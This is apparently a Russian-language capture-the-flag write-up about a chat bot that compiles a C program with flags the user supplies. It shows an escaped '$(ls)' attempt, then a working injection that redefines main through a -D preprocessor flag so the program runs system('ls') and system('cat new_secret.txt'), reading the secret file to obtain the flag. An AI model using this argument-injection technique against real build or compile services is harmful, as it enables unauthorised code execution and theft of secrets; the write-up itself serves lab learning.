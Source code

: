 # Капибудильник

## Описание

> Теплый капибассейн — излюбленное место для отдыха горожан. В нем всегда поддерживается оптимальная температура. Недавно в капибассейн для красоты добавили фрукты юдзу.
> Они тут же закупорили термодатчики, и вода остыла.
>
> Помогите нашему инженеру и найдите ключ от термодатчиков, пока капибары не простудились!


## Решение

Заходит по ssh и попадаем в чат, где "Капинженер" просит ему помочь скомпилировать прогу:
`````c
<system> 'Капинженер' создал чат
<system> 'КапиСпасатель' вошёл в чат
<Капинженер> О ты пришёл! Я поменял термодатчит, но программа от предыдущего разработчика не компилируется!
<Капинженер> Помоги скомпилировать прогу, там чёт не хватает.
<Капинженер> У меня есть main.c файл:
```
#include "basin-control/lib.h"

#include <unistd.h>
#include <stdlib.h>

#define EXIT_ON_ERROR(exp) \
if ((exp) < 0) { \
    perror(# exp); \
    return -1; \
}

int main()
{
    EXIT_ON_ERROR(basic_control_init());
    EXIT_ON_ERROR(basic_control_auth("./secret.txt"));

    float good_capi_temperature = 23.5;
    EXIT_ON_ERROR(basic_control_set_water_heater_target_temp(good_capi_temperature));
    EXIT_ON_ERROR(basic_control_do_restart());

    float current_capi_temperature = basic_control_get_water_temp();
    while (current_capi_temperature < good_capi_temperature)
    {
        printf("Капибары всё ещё мёрзнут при %f °C\n", current_capi_temperature);
        sleep(1);
        current_capi_temperature = basic_control_get_water_temp();
    }

    printf("Ура! t=%f °C! Капибары чилят\n", current_capi_temperature);

    return 0;
}
```
<Капинженер> Компилирую вот так: gcc main.c -std=c11 -L. -lbasin-control -o main
<Капинженер> И получаю такую ошибку:

main.c:8:5: error: implicit declaration of function 'perror' [-Wimplicit-function-declaration]
    8 |     perror(# exp); \
      |     ^~~~~~
main.c:14:5: note: in expansion of macro 'EXIT_ON_ERROR'
   14 |     EXIT_ON_ERROR(basic_control_init());
      |     ^~~~~~~~~~~~~
main.c:24:9: error: implicit declaration of function 'printf' [-Wimplicit-function-declaration]
   24 |         printf("Капибары всё ещё мёрзнут при %f °C\n", current_capi_temperature);
      |         ^~~~~~
main.c:5:1: note: include '<stdio.h>' or provide a declaration of 'printf'
    4 | #include <stdlib.h>
  +++ |+#include <stdio.h>
    5 |
main.c:24:9: warning: incompatible implicit declaration of built-in function 'printf' [-Wbuiltin-declaration-mismatch]
   24 |         printf("Капибары всё ещё мёрзнут при %f °C\n", current_capi_temperature);
      |         ^~~~~~
main.c:24:9: note: include '<stdio.h>' or provide a declaration of 'printf'
main.c:29:5: warning: incompatible implicit declaration of built-in function 'printf' [-Wbuiltin-declaration-mismatch]
   29 |     printf("Ура! t=%f °C! Капибары чилят\n", current_capi_temperature);
      |     ^~~~~~
main.c:29:5: note: include '<stdio.h>' or provide a declaration of 'printf'


<Капинженер> Чо сюда вставить: gcc main.c -std=c11 -L. -lbasin-control →???← -o main
<КапиСпасатель>
`````

Посмотрим на ошибку:
```sh
main.c:8:5: error: implicit declaration of function 'perror' [-Wimplicit-function-declaration]
    8 |     perror(# exp); \
...
main.c:29:5: note: include '<stdio.h>' or provide a declaration of 'printf
```

Чтобы скомпилировать надо заинклюдить `stdio.h`, через опции компилятора это сделать просто: `-include stdio.h`.

Отправляем:
```sh
<КапиСпасатель> -include stdio.h
<Капинженер> Ща попробуем
<Капинженер> Запускаю: gcc main.c -std=c11 -L. -lbasin-control -include stdio.h -o main

<Капинженер> Агонь, оно успешно скомпилировалось. Ща запущу:
invalid secret format: expected tctf{...}, got: 'the secret has been moved to new_secret.txt
'
basic_control_auth("./secret.txt"): Operation not permitted

<Капинженер> Блииин, похоже нужно new_secret.txt посмотреть!
```

Ага, получается прога скомпилировалась и запустилась, но чтобы спасти капибар надо открывать `new_secret.txt`, вероятно там же флаг.

Посмотрим что у нас есть, возможно у нас есть shell injection. Чтобы проверить укажем gcc подробный режим и вставим саб команду:
```
-v $(ls)
```

Получаем выхлоп:
```sh
<КапиСпасатель> -v $(ls)
<Капинженер> Ща попробуем
<Капинженер> Запускаю: gcc main.c -std=c11 -L. -lbasin-control -v '$(ls)' -o main
...
COLLECT_GCC_OPTIONS='-std=c11' '-L.' '-v' '-o' 'main' '-mtune=generic' '-march=x86-64' '-dumpdir' 'main-'
```

Ага, значит наш ввод либо экранируется, либо здесь нет шелла.

Хорошо, а что делает бот:
1. Компилирует бинарь
2. Запускает бинарь

Получается, что если внедриться в сам исходных код, то выполнится наша команда!  
Как это сделать через командную строку компилятора? С помощью макросов препроцессора! 

1. Макросы работают по принципу подставки текста.  
2. Исполнение программы начинается с функции main. В её начало и будем внедряться.

Попробуем так:
```sh
-include stdio.h -Dmain='main(){system("ls"); return -1;} int kek'
```

Опа работает, получилось залистить диру:
```sh
<Капинженер> Ща попробуем
<Капинженер> Запускаю: gcc main.c -std=c11 -L. -lbasin-control -include stdio.h '-Dmain=main(){system("ls"); return -1;} int kek' -o main

<Капинженер> Агонь, оно успешно скомпилировалось. Ща запущу:
basin-control
libbasin-control.a
main
main.c
new_secret.txt
secret.txt
```

Попробуем катнуть секрет так:
```sh
-include stdio.h -Dmain='main(){system("cat new_secret.txt"); return -1;} int kek'
```

И всё, получаем флаг:
```sh
<Капинженер> Запускаю: gcc main.c -std=c11 -L. -lbasin-control -include stdio.h '-Dmain=main(){system("cat new_secret.txt"); return -1;} int kek' -o main

<Капинженер> Агонь, оно успешно скомпилировалось. Ща запущу:
tctf{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```
